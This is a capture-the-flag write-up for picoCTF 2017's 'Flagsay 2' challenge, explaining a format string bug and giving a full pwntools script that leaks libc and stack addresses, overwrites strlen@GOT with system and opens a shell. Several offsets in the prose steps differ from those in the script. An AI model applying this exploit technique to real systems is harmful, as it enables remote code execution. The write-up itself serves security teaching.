 # Flagsay 2
#### Writeup by hgarrereyn
* **Binary Exploitation**
* *150 points*
* Description: Apparently I messed up using system(). I'm pretty sure this one is secure though! I hope [flagsay-2](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/ae8966a89649c86e35ed47c73224ed435234f47c/2017/picoCTF_2017/problems/binary/Flagsay_2/flagsay-2) is just as exhilarating as the the first one! [Source](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/ae8966a89649c86e35ed47c73224ed435234f47c/2017/picoCTF_2017/problems/binary/Flagsay_2/flagsay-2.c). Connect on shell2017.picoctf.com:19884.

# Solution

This program was vulnerable to a format string attack. However it was made difficult because the buffer was not stored on the stack. Additionally ASLR was enabled and therefore stack/function addresses could not be hardcoded.

Specifically, line `61` was vulnerable by calling `printf` on a user supplied buffer:

```c
printf(tempFlag);
```

In order to solve this problem, I started searching for pointers on the stack that either pointed into libc (so I could leak system) or pointed to stack addresses I could reach within the format string attack.

Additionally, I realized that if I wanted to overwrite the GOT table, I needed to be able to do it in a single format string attack. If I tried to do it in two, the program would jump to some undefined location. Therefore I needed to prepare two pointers on the stack pointing to `<strlen@GOT>` and `<strlen@GOT + 2>` so I could do two `$hn` writes at once.

I found the following useful pointers:

* `%17` pointed to `%53` on the stack. So I could perform a multistep format string attack to get an arbitrary write such as: `%17$n` then `%53$n`.
* `%23` and `%24` had pointers to addresses near the one I wanted to overwrite so I was able to overwrite just one or two bytes and get them each pointing to the GOT table (2 bytes apart)
* `%2` was pointing into libc, so I could use it as a reference to calculate the address of `system`


# Step-by-step

During the competition, I found it easier to crack this binary by hand, typing in lines manually.

As part of this writeup, I wrote a script for completeness.

### Instructions:

*For all writes, subtract 129 initially as this is how many characters are printed as part of the flag*

1. System address is `%2 + 1489168`
2. s1(`%23`) is at `%22 - 24`
	* Write the lower two bytes of this to `%17`
	* Write `0x84` to lowest byte of `%53`
3. s2(`%24`) = `s1 + 4`
	* Write the lower two bytes of this to `%17`
	* Write `0x9986` to lower two bytes of `%53`
4. Write higher two bytes of system address to `%23` and write lower two bytes of system address to `%24` (this overwrites `strlen@GOT` with system)
5. send `sh`
6. You've got shell!

# Script

[**exploitFlagsay2.py**](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/ae8966a89649c86e35ed47c73224ed435234f47c/2017/picoCTF_2017/problems/binary/Flagsay_2/exploitFlagsay2.py)

```python
# By Harrison Green <hgarrereyn>

from pwn import *
import re

# Connect to the server
sock = remote('shell2017.picoctf.com', 19884)

# Helper function to consume input
def n():
	a = sock.recv()
	print(a)
	return a


# Calculate system address
sock.send('<%2$lx>\n')
resp = n()
ref_addr = int(re.search(r'<([a-f0-9]*)>', resp).group(1), 16)
sys_addr = ref_addr - 1488960

print('System at: ' + hex(sys_addr))

# Get stack address
sock.send('<%22$lx>\n')
resp = n()
ref_addr = int(re.search(r'<([a-f0-9]*)>', resp).group(1), 16)
s1 = ref_addr - 24
s2 = s1 + 4

# Create first GOT pointer
sock.send('%' + str((s1 & 0xFFFF) - 129) + 'x%17$hn\n')
sock.send('%' + str(259) + 'x%53$hhn\n')

# Create second GOT pointer (first + 2)
sock.send('%' + str((s2 & 0xFFFF) - 129) + 'x%17$hn\n')
sock.send('%' + str(39173) + 'x%53$hn\n')

# Use GOT addresses to overwrite strlen with system
sys_high = (sys_addr & 0xFFFF0000) >> 16
sys_low = (sys_addr & 0xFFFF)

print(hex(sys_high))
print(hex(sys_low))

# make sure the second write is greater
if (sys_high > sys_low):
	sock.send('%' + str(sys_low - 129) + 'x%23$hn' + '%' + str(sys_high - sys_low) + 'x%24$hn\n')
else:
	sock.send('%' + str(sys_high - 129) + 'x%24$hn' + '%' + str(sys_low - sys_high) + 'x%23$hn\n')

sock.send('sh\n')

# We've got shell
sock.interactive()
```
